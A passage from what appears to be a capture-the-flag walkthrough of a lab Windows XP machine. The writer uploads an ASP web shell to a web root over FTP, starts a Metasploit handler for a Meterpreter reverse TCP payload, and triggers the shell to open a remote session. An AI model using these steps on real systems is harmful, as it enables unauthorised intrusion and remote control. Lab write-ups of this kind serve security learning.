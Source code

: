 ```shell_session
230 User bob logged in.
Remote system type is Windows_NT.
ftp> cd wwwroot
250 CWD command successful.
ftp> put shell.asp
local: shell.asp remote: shell.asp
200 PORT command successful.
150 Opening ASCII mode data connection for shell.asp.
226 Transfer complete.
38385 bytes sent in 0.00 secs (25.3510 MB/s)
ftp> ls -l
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
12-08-11  01:56PM               272367 backgroup.jpg
12-10-11  02:55PM                  101 hint.html
02-12-13  12:46PM                 1228 index.html
06-03-17  09:14PM                38385 shell.asp
226 Transfer complete.
```

Whilst checking that `shell.asp` had uploaded, I noticed there was also a file named `hint.html`, which I decided to take a look at (even if it was possibly a bit late):

```shell_session
root@kali:~# curl http://192.168.1.11/hint.html
#1 This very common Windows file is not downloaded or interpretered but rather executed server side
```

I wasn't (and I am still not) 100% sure what this hint was referring to, so I continued to setup the handler in Metasploit for the reverse shell:

```shell_session
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.1.4:4444
[*] Starting the payload handler...
```

Once the TCP handler was setup and listening for connections, I proceeded to execute the shell script on the server by executing `curl http://192.168.1.11/shell.asp` and successfully got shell access:

```shell_session
[*] Sending stage (957487 bytes) to 192.168.1.11
[*] Meterpreter session 1 opened (192.168.1.4:4444 -> 192.168.1.11:1038) at 2017-06-03 21:18:03 +0100

meterpreter > sysinfo
Computer        : BOBBY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
